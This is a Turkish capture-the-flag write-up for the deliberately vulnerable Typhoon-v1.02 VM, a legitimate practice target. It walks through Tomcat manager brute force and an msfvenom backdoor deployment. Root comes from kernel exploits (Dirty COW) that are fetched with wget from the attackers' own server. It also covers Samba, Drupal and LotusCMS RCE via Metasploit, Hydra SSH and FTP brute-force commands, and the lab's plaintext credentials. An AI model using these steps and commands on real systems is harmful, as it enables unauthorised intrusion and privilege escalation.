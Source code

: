 ```yaml
---
title:  "Typhoon-v1.02 WRITEUP"
author: "Alp Eren Işık"
background: "/img/posts/typhoon.png"
date:   2018-10-28
---
```


***Hazırlayanlar: [Alp Eren Işık](https://github.com/isikerenalp)  [Feyzi Yuşa Karababa](https://github.com/Fykarababa) ***

***
PRISMA CSI tarafından hazırlanan Typhoon-v1.02 makinesini elimizden geldiği kadar çözmeye çalıştık ve sizler için ufak bir writeup hazırladık. Biz çözerken çok zevk aldık umarım sizler içinde zevkli bir writeup olur.

Hazırlayanlar: Alp Eren Işık , Feyzi Yuşa Karababa
***

# `NMAP`
  İlk aşamada Nmap ile port taraması yaparak çalışan servisleri ve versiyonları öğrendik.
  Devamında bu servisler ve versiyonları üzerinden mevcut exploitleri araştıracağız.

  ![nmap](/img/posts/typhoon-v1/nmap.png)

# `Apache Tomcat`
  Metasploit kullanarak **use auxiliary/scanner/http/tomcat_mgr_login** scanner kullanarak tomcat parolasını bulmaya çalışıyoruz.

  ![](/img/posts/typhoon-v1/msf1.png)

  Aşşağıda gördüğünüz gibi tomcat username ve password bulmuş oluyoruz

  ![](/img/posts/typhoon-v1/msf2.png)

  Daha sonra **10.242.24.216:8080/manager** adresine giderek bulmuş olduğumuz **username** `(tomcat)` ve **password** `(tomcat)` ile giriş yapıyoruz.

  ![](/img/posts/typhoon-v1/tomcat_tomcat.png)

  Giriş yaptıktan sonra tekrar Metasploitimize geri dönüyoruz ve **msfvenom** ile backdoor oluşturuyoruz.

  ![](/img/posts/typhoon-v1/msf3.png)

  Daha sonra oluşturmuş olduğumuz bu backdooru girmiş olduğumuz **tomcat** üzerinden **deploy** ediyoruz

  ![](/img/posts/typhoon-v1/tomcat_deploy.png)

  Deploy ettikten sonra tekrar Metasploitimize gelerek `use exploit/multi/handler` yazıyoruz daha sonra modülümüze bağlanacağımız backdoor payloadımızı ve bilgilerimizi giriyoruz.

  Artık tarayıcımızdan `10.242.24.216:8080/manager/typhoon/lyrzruiw.jsp` adresine girebiliriz.


  ![](/img/posts/typhoon-v1/msf4.png)

  ![](/img/posts/typhoon-v1/tomcat_backdoor.png)

  Bu aşamadan sonra sunucuda **ROOT** olmaya çalışacağız.


# `Yetki Yükseltme - 1 (dirtycow)`
    https://www.exploit-db.com/exploits/40616
  Backconnect olduğumuz makinemizde **C** kodunu derleyemediğimiz için derleme işlemini uzak sunucuda gerçekleştirmeye karar verdik.

  Uzak sunucumuzda `wget https://www.exploit-db.com/raw/40616/index.html` ile komutları çektik ve uzak sunucumuzda bunu derledik. Daha sonra Typhoon makinesinde `wget https://sunucu_adresi/prisma` diyerek derlenmiş **C** kodunu makinemize yüklemiş olduk. Derleyip wget ile çekmiş olduğumuz exploitimizi makinemizde çalıştırdık ve **ROOT** olduk. Son olarak `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` komutunu girerek exploitimizin stabil olmasını sağlayarak sunucunun crash olmasını engelliyoruz. :)

  ![](/img/posts/typhoon-v1/msf5_dirtycow.png)

# `Yetki Yükseltme - 2 (Ubuntu Kernel Exploit)`
    https://www.exploit-db.com/exploits/37292/
Yukarıda anlatmış olduğumuz işlemleri bu exploitimiz ile de uygulayarak `wget https://sunucu_adresi/ubn` ile çekmiş olduğumuz exploitimizi makinemizde çalıştırarak  **ROOT** oluyoruz. :)

![](/img/posts/typhoon-v1/msf5_ubuntu_exploit.png)

# `Samba smbd 3.X - 4.X (ROOT)`
    Github Code = https://github.com/rapid7/metasploit-framework/blob/0520d7cf76f8e5e654cb60f157772200c1b9e230/modules/exploits/linux/samba/is_known_pipename.rb

Çalışan versiyonda bir exploit olduğunu öğrendik. Githubda bulduğumuz kodu `wget` ile **/opt/metasploit/modules/exploits/linux/samba/** dizini altına **is_known_pipename.rb** ismiyle kaydettik. Daha sonra metasploit üzerinden exploiti kullanarak makinemizde **ROOT** olduk. :)

![](/img/posts/typhoon-v1/samba.png)  

    NOT: Eğer bu aşamadan sonra root olmaz ise devamında dirtycow ile rootlayabilirsiniz.

# `Phpmyadmin Username && Password`
Sunucumzuda root olduktan sonra içeriye bir de shell atalım dedik. Shellimizden dizinleri ve dosyaları gezerken `/var/www/html/dvwa/config/config.inc.php` dosyası içerisinde **phpmyadmin** kullanıcı adı ve parolasını bulduk.

![](/img/posts/typhoon-v1/phpmyadmin1.png)

![](/img/posts/typhoon-v1/phpmyadmin2.png)

![](/img/posts/typhoon-v1/phpmyadmin3.png)

# `Kullanıcı Adı ve Parolası`
Shellimizi attıktan sonra bir de mongoadmin dikkatimizi çekti ve biz de  `http://192.168.43.114/mongoadmin/` adresine gittik.

**credentials** Bir değişiklik yapmadan bu şekilde aratıyoruz.

![](/img/posts/typhoon-v1/mongoadmin1.png)

**creds (2)**

![](/img/posts/typhoon-v1/mongoadmin2.png)

Kullanıcı adı ve parolasını öğrenmiş olduk.

![](/img/posts/typhoon-v1/mongoadmin3.png)

URL= `http://192.168.43.114/mongoadmin/index.php?db=credentials&action=listRows&collection=creds`

**Username** : `typhoon` && **Password** : `789456123`

![](/img/posts/typhoon-v1/login.png)


# `PostgreSQL DB 9.3.3 - 9.3.5 Exploit ile Dosya Okuma`
Çalışan PostgreSQL sürümünde dosyaları okumamıza imkan sağlayan bir exploit olduğunu farkettik. ve  Metasploitimiz ile işe koyulmaya başladık :)

    auxiliary/admin/postgres/postgres_readfile

    Not: 'exploit' yerine 'set RFILE ../okunacak_dosya' komutu ile dosyaları okuyabilirsiniz

![](/img/posts/typhoon-v1/postgresql_read-file.png)


# `Drupal-8 RCE`
***
view-source:http://192.168.1.60/drupal diyerek drupalın sürümünün 8 olduğunu öğrendikten sonra aklımıza Drupal-8 de bulunan RCE geldi.

Drupal RCE CVE-2018-7600 : https://www.exploit-db.com/exploits/44448/  

***
Drupalın **register** bölümünde mevcut olan `RCE` zaafiyeti.

![](/img/posts/typhoon-v1/drupal.png)

Bunun dışında şöyle bir yöntem izlenebilir , drupalın default olarak config dosyası **sites/default/settings.php** de bulunmakta. Bunu `RCE` açığı ile okuyup database username ve password bilgileri alınıp phpmyadmine giriş yapılabilir.

![](/img/posts/typhoon-v1/drupal2.png)

**NOT:** `Post olarak gönderdiğimizde ilk olarak shell atmaya çalıştık fakat drupalın dizininde yazma izni yoktu. Ardından pwd komutu ile bulunduğu dizini öğrendik. Sonra var/www/html dizininde yazma izni olduğunu gördük ve shellimizi yükledik. :)`

# `LotusCMS RCE Exploit`
    use exploit/multi/http/lcms_php_exec
    https://www.exploit-db.com/exploits/18565/
  Sistemin kullandığı CMS yazılımının LotusCMS olduğunu öğrendik ve google'da kısa bir araştırma yaptıktan sonra **RCE** exploitinin olduğunu gördük. Daha sonra kullanacağımız exploiti ve bilgilerimizi girdikten sonra `exploit` diyerek çalıştırıyoruz.

![](/img/posts/typhoon-v1/lotuscms.png)

# `Brute Force ile Parola Tespiti`
***
  Burada Hydra ile **SSH** ve **FTP** 'ye brute force yaparak parolayı bulduk.

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ssh

  hydra -t 1 -l typhoon -P /home/fkarababa/Masaüstü/pass.txt -vV 192.168.1.60 ftp
***
`SSH`

![](/img/posts/typhoon-v1/hydra-ssh.png)

`FTP`

![](/img/posts/typhoon-v1/hydra_ftp.png)
